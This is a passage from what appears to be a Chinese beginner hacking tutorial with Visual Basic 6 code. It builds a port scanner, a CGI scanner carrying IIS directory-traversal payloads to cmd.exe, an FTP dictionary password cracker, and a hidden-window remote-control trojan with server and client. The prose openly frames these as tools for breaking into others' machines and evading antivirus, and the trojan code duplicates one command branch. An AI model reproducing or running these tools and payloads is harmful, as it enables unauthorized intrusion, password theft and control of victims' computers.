        ' 释放控制权
        If bStop = True Then
            ' 如果用户点了停止扫描，就退出循环
            Exit For
        End If
        LblCurrent.Caption = "正在扫描" & i & "号端口！"
        Winsock1.RemoteHost = ip
        Winsock1.RemotePort = i
        Winsock1.Connect
        DoEvents
        ' 释放控制权，只有释放了控制权，winsock1才能去真正去连接
        starttime = GetTickCount()
        ' 获得当前时间
        ' 下面这个循环就是等，直到超时
        Do Until GetTickCount() > starttime + outTime
            DoEvents ' 释放控制权
        Loop
        If Winsock1.State = sckConnected Then
            'sckConnected的意思就是连接成功
            LstResult.AddItem CStr(i) & "号端口开放！" & GetNameOfPort(i)
        End If
        Winsock1.Close
    Next i
    LblCurrent.Caption = "扫描完成！"
End Sub

Private Function GetNameOfPort(port As Long) As String
    ' 根据端口号，返回服务名
    Select Case port
```


# 黑客入门实例精讲

```vb
Case 7
    GetNameOfPort = "ECHO 服务"
Case 21
    GetNameOfPort = "FTP 服务"
Case 25
    GetNameOfPort = "SMTP 服务"
Case 43
    GetNameOfPort = "Whois 服务"
Case 53
    GetNameOfPort = "DNS 服务"
Case 80
    GetNameOfPort = "HTTP 服务"
Case 81
    GetNameOfPort = "HOSTS2 名称服务"
Case 99
    GetNameOfPort = "NCX99 后门"
Case 110
    GetNameOfPort = "POP3 服务"
Case 111
    GetNameOfPort = "Sun RPC 服务"
Case 135
    GetNameOfPort = "本地服务"
Case 137
    GetNameOfPort = "NETBIOS 名称服务/流影 POP"
Case 138
    GetNameOfPort = "NETBIOS 数据存储服务"
Case 139
    GetNameOfPort = "NETBIOS 会议服务"
Case 119
    GetNameOfPort = "NNTP 虚拟服务"
Case 163
    GetNameOfPort = "SNMP 服务"
Case 443
    GetNameOfPort = "https 服务"
Case 512
    GetNameOfPort = "远程执行服务"
Case 513
    GetNameOfPort = "login, remote login"
Case 514
    GetNameOfPort = "cmd, exec with auto auth"
Case 600
    GetNameOfPort = "Sun IPC 服务器"
Case 1080
    GetNameOfPort = "SOCKS 代理服务"
Case 1433
    GetNameOfPort = "SQL 服务器"
Case 3128
    GetNameOfPort = "HTTP 代理服务"
Case 7626
    GetNameOfPort = "木马冰河"
Case 8080
    GetNameOfPort = "HTTP 代理服务"
Case Else
    GetNameOfPort = "未知服务！"
End Select
End Function
```

以上是扫描时经常检测的端口和几个知名木马的端口，扫描出来后就可知道该端口是干什么的了。你还可把所有知道的木马端口添加到里面，这样就成为专门的木马扫描器了。

看了这个软件的主体代码，是不是不会让你头痛？大家看看我扫描210.76.63.234的抓图（图25）。



如有看不懂的代码请查阅MSDN。记住只要把代码全看懂而且懂得如何应用，你的编程水平一定会突飞猛进地进步。

## 手把手打造自己的CGI扫描程序

用惯了别人编写的扫描程序，你一定想拥有一个自己的扫描程序吧！现在我就一步步教大家制作最简单的CGI扫描程序（本文需要对VB语言有些基础）。

编程环境：VB 6.0
操作系统：Win9x

- 1. 首先打开VB6.0，必须有能填写IP的框，添加一个TextBox控件。
- 2. 然后再添加一个显示漏洞的窗口，再添加一个TextBox控件，调整控件的MultiLine属性，使它可接受多行文本。你不会想把所有内容放在一行显示出来吧！
- 3. 要有一个开始扫描的按键，我们加一个CommandButton控件。最后加一个网络控件Inet，因为工具箱没有这个控件，所以选部件，然后选择Microsoft Internet Transfer Controls框，这时在工具箱有一个Inet控件了。把它放到工程上就可以了。步骤如此简单，相信大家都会吧！图26是我做的一个草图。



好了，框架做完了，我们开始填写代码。双击建立的CommandButton控件，对其进行编程。代码如下：

```vb
Dim ip_address As String
'定义ip_address，存储输入的ip地址
Dim Id(3) As String
'定义一个数组，存放扫描的信息，这里Id( )里的数值因你要扫描漏洞的多少来决定
ip_address = text1.Text
'变量=ip框里的值
Id(1) = "/*.idq"
Id(2) = "/cgi-bin/../%c0%af..%c0%af../winnt/system32/cmd.exe?/c+dir+c:\"
Id(3) = "/scripts/../%c0%af..%c0%af../winnt/system32/cmd.exe?/c+dir+c:\"
```

把漏洞信息赋值给数组，这里我只用了3个CGI漏洞进行扫描，读者自己做的时候可把有用的CGI漏洞资料填写进去。

```vb
Text2.Text = ""
Text2.Text = "请等待…"
Dim a1, a2
Inet1.Cancel
'还原Inet控件的设置
```

## 黑客入门实战精讲（三）

### 写自己的FTP

大家有没有在入侵机器时发现对方的系统没有明显的危险漏洞，而且各方面防护做的都不错，让你无从下手。但我们可利用对方所开的端口，对其进行用户和密码破解。那我们怎么知道对方机器里的用户和密码呢？就要凭运气去猜测了。呵呵！如果运气好了，猜几次就OK了。如果对方的密码很复杂，可就没那么容易猜了。黑客在这方面经常利用两种方法来对密码进行破解。

#### 一、暴力破解

暴力破解就是得到对方密码的长度后，进行密码递增1的方式来破解。
例如：最开始我们用密码为1来破解，当1这个密码不对，再用2来尝试，以后依次推进破解。虽然这种方法一定能破解出来，不过如果对方的密码是高难度级的，恐怕要破解一辈子啊！这种方法不适合我们，相比之下我最擅长使用字典破解方法。

#### 二、字典破解

字典破解就是把对方可能使用的密码全收集在一个扩展名为.dic的文件里，然后用专门的软件把dic文件中的密码测试一遍，这样破解就方便快捷多了。建议大家用这种方法来破解密码。

```vb
Inet1.URL = ""
'清空Inet的URL属性内容
Inet1.OpenURL "http://" & ip_address

A1 = Inet1.GetHeader("server")
Text2.Text = "服务器类型：" & a1
'在text2中显示变量a1存储的信息
Text2.Text = text2.Text + vbCrLf & vbCrLf _
& "正在扫描[" & ip_address & "]" & vbCrLf _
& vbCrLf

For i = 1 To 5
    A1 = ""
    '清空h存储的内容
    Inet1.URL = ""
    Inet1.OpenURL ip_address & Id(i), 1
    '打开变量ip_address存储的ip值
    a1 = Inet1.GetHeader
    '获取服务器信息，存储在a1中
    a2 = Split(a1, vbCrLf)
    '用Split()函数来分解a1中的数据，提交给变量a2
    If a2(0) = "HTTP/1.1 200 OK" Then
        '条件语句，用来判断是否有漏洞，返回HTTP/1.1 200 OK 表示网页地址存在
        '如果没找到网页，会返回HTTP/1.1 404 Not Found 错误信息
        Text2.Text = text2.Text + "发现漏洞" _
        & " " & Inet1.URL & vbCrLf & vbCrLf
        '把漏洞信息存放到text2里
    End If
Next i
Text2.Text = text2.Text + "扫描结束" _
& vbCrLf & vbCrLf
```

以上就是这个软件的主体代码，因为这个软件是单线程，所以如果你设置的CGI漏洞太多，扫描起来会很慢。建议只填写重大的漏洞和对你有帮助的漏洞。

## 程序设计篇 黑客入门实例精讲

现在网上这种软件很多，我们用哪个呢？呵呵！想不想自己做一个？不会吧？这种程序也能自己做出来？没错，而且非常简单。
用VB做了这么多的程序，这次教大家利用开放FTP端口的机器做一个字典破解软件。



打开VB6.0后，制作步骤如下：

- 1. 在工具栏里单击鼠标右键，选择“部件→控件”，在Microsoft Common Dialog Control 6.0的前面打上勾。这时工具栏里会多出一个CommonDialog控件，把它放在Form窗体中。
- 2. 在窗体里分别添加3个TextBox，用来填写服务器IP（TxtServerName）、用户名文件（TxtUserNameFile）、密码文件（TxtPassWordFile），再添加4个CommandButton按钮，分别来做浏览用户名文件的浏览按钮（CmdUserNameFile）、浏览密码文件的按钮（CmdPassWordFile）、开始按钮（CmdStart）和停止按钮（CmdStop）。
- 3. 在Form1里做2个TextBox来存放探测结果（TxtResult）和错误信息（TxtErr），图27是我做的一个简图。



好了，下面进入代码部分：

```vb
Option Explicit
Dim bStop As Boolean '用来停止探测

Private Sub CmdPassWordFile_Click()
    '选择密码
    CommonDialog1.ShowOpen
    TxtPassWordFile.Text = CommonDialog1.FileName
End Sub

Private Sub CmdStart_Click()
    If Trim(TxtServerName.Text) = "" _
    Or Trim(TxtUserNameFile.Text) = "" Or Trim _
    (TxtPassWordFile.Text) = "" Then
        MsgBox "拜托填完！"
        Exit Sub
    End If
    CmdStop.Enabled = True
    CmdStart.Enabled = False
    bStop = False
    '开始探测
    Call ScanFTP(TxtServerName.Text, _
    TxtUserNameFile.Text, TxtPassWordFile.Text)
    LblStatus.Caption = "探测完成"
    CmdStart.Enabled = True
    CmdStop.Enabled = False
End Sub

Private Sub CmdStop_Click()
    bStop = True
End Sub

Private Sub CmdUserNameFile_Click()
    '选择用户名文件
    CommonDialog1.ShowOpen
    TxtUserNameFile.Text = _
    CommonDialog1.FileName
End Sub

Private Sub Form_Load()
    CmdStart.Enabled = True
    CmdStop.Enabled = False
End Sub

Private Sub ScanFTP(ServerName As String, _
UserNameFile As String, PassWordFile As String)

    Dim FileNumber As Integer
    Dim arrayUserName() As String
    ' 存放用户名的数组，是动态的哦！

    Dim arrayPassWord() As String
    ' 存放密码的数组，是动态的哦！
    Dim LineCount As Long
    ' 文件行

    ' 第一步，读取用户名文件到arrayUserName数组
    FileNumber = FreeFile()
    Open UserNameFile For Input As FileNumber
    LineCount = 0
    Do While Not EOF(FileNumber)
    ' 循环至文件尾。
        ReDim Preserve arrayUserName(0 To LineCount)
        ' 把数组弄大点了~
        Line Input #FileNumber, arrayUserName(LineCount)
        LineCount = LineCount + 1
    Loop
    Close FileNumber
    ' 关闭文件。

    ' 第二步，读取密码文件到arrayPassWord数组
    FileNumber = FreeFile()
    Open PassWordFile For Input As FileNumber
    LineCount = 0
    Do While Not EOF(FileNumber)
    ' 循环至文件尾。
        ReDim Preserve arrayPassWord(0 To LineCount)
        ' 把数组弄大点了~
        Line Input #FileNumber, arrayPassWord(LineCount)
        LineCount = LineCount + 1
    Loop
    Close FileNumber ' 关闭文件。

    ' 第三步，开始探测了！：）
    Dim objLinkToFtp As ClsLinkToFTP
    ' ClsLinkToFTP 是我自己写的一个类。

    Set objLinkToFtp = New ClsLinkToFTP
    ' 创建这个对象
    TxtResult.Text = ""
    TxtErr.Text = ""
    Dim i As Long
    Dim j As Long
    For i = 0 To UBound(arrayUserName)
        For j = 0 To UBound(arrayPassWord)
            DoEvents ' 释放控制权
            If bStop Then ' 用户按了停止
                Exit Sub
            End If
            LblStatus.Caption = " 正在探测 " & arrayUserName(i) & "/" & arrayPassWord(j) & " "
            If objLinkToFtp.link(ServerName, arrayUserName(i), arrayPassWord(j), 1000) Then ' 探测！！！超时时间是1秒
                ' 登陆成功！
                TxtResult.Text = TxtResult.Text & vbCrLf & arrayUserName(i) & "/" & arrayPassWord(j)
                TxtResult.SelStart = Len(TxtResult.Text)
            Else
                ' 失败！
                TxtErr.Text = TxtErr.Text & vbCrLf & objLinkToFtp.GetLastErr _
                & arrayUserName(i) & "/" & arrayPassWord(j)
                TxtErr.SelStart = Len(TxtErr.Text)
            End If
        Next j
    Next i
End Sub
```

以上代码是软件窗体中的代码，由于篇幅的关系还有许多API函数不能一一写出，详细的代码请浏览光盘。

## 黑客编程 入门实例精讲

### 打造自己的木马



特洛伊木马（以下简称木马），英文叫做“Trojanhorse”，其名称取自希腊神话的特洛伊木马记，是一种基于远程控制的黑客工具，具有隐蔽性和非授权性特点。隐蔽性是指木马设计者为防止木马被发现，会采用多种手段隐藏木马，这样服务端即使发现感染了木马，由于不能确定其具体位置，往往只能望“马”兴叹；所谓非授权性是指一旦控制端与服务端连接后，控制端将享有服务端的大部分操作权限，包括修改文件、修改注册表、控制鼠标、键盘等等，而这些权力并不是服务端赋予的，而是通过木马程序窃取的。

从木马的发展来看，基本上可以分为两个阶段，最初网络还处于以 UNIX 平台为主的时期，木马就产生了，当时的木马程序功能相对简单，往往是将一段程序嵌入到系统文件中，用跳转指令来执行一些木马功能。那个时期木马的设计者和使用者大都是些技术人员，必须具备相当的网络和编程知识。而后随着 Windows 平台的日益普及，一些基于图形操作系统的木马程序出现了，用户界面的改善，使使用者不用懂太多专业知识就可熟练操作木马。相应的木马入侵事件也频繁出现，由于这个时期木马的功能已日趋完善，因此对服务端的破坏也更大了。

#### 木马原理

通常木马采取六个步骤实施攻击：配置木马（伪装木马）→传播木马（通过 E-mail 或者下载）→运行木马（自动安装、自启动）→信息泄漏（以 E-mail、IRC 或 ICQ 的方式把你的信息泄露出去）→建立连接→远程控制。至此，木马彻底掌握了主动权！

现在的木马各种各样，而且都很出色，令大家头痛的是，使用木马时总有被杀毒软件查杀的可能，闹得大家把木马脱壳再压缩。做起来很麻烦！

杀毒软件是靠辨别程序里有没有什么特征码来确认是不是木马程序，就像冰河，程序里写有作者的生日，所以杀毒软件就会检查程序里有没有这个信息。如果有，就报有木马特征。我们自己做的木马当然没有高手做得好，也不会被广泛传播，所以任何杀毒软件也不会研究我们的木马，也查不到我们的程序是木马。呵呵，很激动吧！下面就开始打造自己的木马程序吧！

编程环境：VB 6.0
操作系统：Win9x

#### 木马的制作（服务端）

打开 VB6.0，按照以下步骤去做：

- 1. 开始做 Server（是发给对方用的，别搞错了让自己执行啊）。在 VB 的工具栏里选择部件，然后选择里面的 Microsoft Winsock Control 6.0（图 28），添加 Winsock 控件。


# 黑客入门实例精讲



把 BorderStyle 属性改成“0—none”(即不显示窗体)。还有一种方法就是在窗体属性对话框里把 Visible 改成 False（图29）。



Server窗体里除了加个Winsock，别的就不用再加了，很简单吧！图30是我的抓图。


接下来的Server代码如下：

```vb
Private Declare Function mciSendString Lib "winmm.dll" Alias "mciSendStringA" (ByVal lpstrCommand As String, ByVal lpstrReturnString As String, ByVal uReturnLength As Long, ByVal hwndCallback As Long) As Long
Private Declare Function mciGetErrorString Lib "winmm.dll" Alias "mciGetErrorStringA" (ByVal dwError As Long, ByVal lpstrBuffer As String, ByVal uLength As Long) As Long
' 2个API函数
```

```vb
Function EjectCD()
    mciSendString "set CDAudio door open", 0, 0, 0
End Function
' EjectCD 是我自己编写的函数，用来打开光驱
Function CloseCD()
    mciSendString "set CDAudio door closed", 0, 0, 0
End Function
' 这个用来关闭光驱
```

```vb
Private Sub Form_Load()
    Winsock1.LocalPort = 521
    Winsock1.Listen
    ' 在本地打开521这个端口，然后对其进行监听
End Sub
```

```vb
Private Sub Winsock1_ConnectionRequest(ByVal requestID As Long)
    If Winsock1.State <> sckClosed Then Winsock1.Close
    ' 如果winsock为连接状态
    Winsock1.Accept requestID
End Sub
' 就接受这个连接请求
```

```vb
Private Sub Winsock1_DataArrival(ByVal bytesTotal As Long)
    DoEvents
    ' 转让控制权，以便让操作系统处理其它事件
    Dim strdata As String
    Call Winsock1.GetData(strdata, vbString)
    ' 定义strdata，让它来得到数据
    DoEvents
    If strdata = "CLOSEME" Then
        'MsgBox "Ok uhh time to close down since WildGhost said so"
        Unload Me
    ElseIf strdata = "OPENCD" Then
        EjectCD
        ' 被远程控制来打开光驱
        DoEvents
    ElseIf strdata = "CLOSECD" Then
        CloseCD
        DoEvents
    ElseIf strdata = "RUNCOMMAND" Then
        Shell "rundll.exe user.exe,exitwindows exec", vbHide
        ' 利用Shell来从新启动计算机
        DoEvents
    ElseIf strdata = "RUNCOMMAND" Then
        Shell "rundll.exe user.exe,exitwindows", vbHide
        ' 被控制关闭计算机
    End If
End Sub
```

好了，Server就作好了，下面我们开始做Client（客户端）来跟Server（服务端）做连接的程序。

## 再来编制客户端程序

Client（客户端）制作步骤如下：

1. 先在Form1里添加一个TextBox，用来填写连接对方的IP地址，然后建立5个CommandButton按钮，分别用来“连接”、“打开光驱”、“关闭光驱”、“重新启动”、“关闭计算机”。图31是我做的样式。


图31

窗口做完后，我们就填写代码部分：

```vb
Private Sub Command1_Click()
  Winsock1.Close
  ' 用来断开连接
  Winsock1.Connect Text1.Text, 521
  ' 用来连接Text1里IP的521端口
End Sub
```

```vb
Private Sub Command2_Click()
  Dim stdata As String
  stdata = "OPENCD"
  Winsock1.SendData stdata
  ' 跟Server里一样定义dtdata，用来发送数据打开光驱
End Sub
```

```vb
Private Sub Command3_Click()
  Dim strdata As String
  strdata = "CLOSECD"
  Winsock1.SendData strdata
  ' 同理，用来关闭光驱
End Sub
```

```vb
Private Sub Command4_Click()
  Dim strdata As String
  strdata = "RUNCOMMAND"
  Winsock1.SendData strdata
  ' 运行重起计算机
End Sub
```

```vb
Private Sub Command5_Click()
  Dim strdata As String
  strdata = "RUNCOMMAND"
  Winsock1.SendData strdata
  ' 关闭计算机
End Sub
```

```vb
Private Sub Form_Load()
  Command2.Enabled = False
  Command3.Enabled = False
  Command4.Enabled = False
  Command5.Enabled = False
End Sub
```

# 黑客入门实例精讲 编程 渗透 攻防

当Client未连接时都不可使用

```vb
End Sub
```

```vb
Private Sub Winsock1_Close()
    Label1.Caption = "状态：断开"
End Sub
```

```vb
Private Sub Winsock1_Connect()
    Label1.Caption = "状态：已经连接"
    Command2.Enabled = True
    Command3.Enabled = True
    Command4.Enabled = True
    Command5.Enabled = True
    '当连接上以后，这些控件就可以使用了
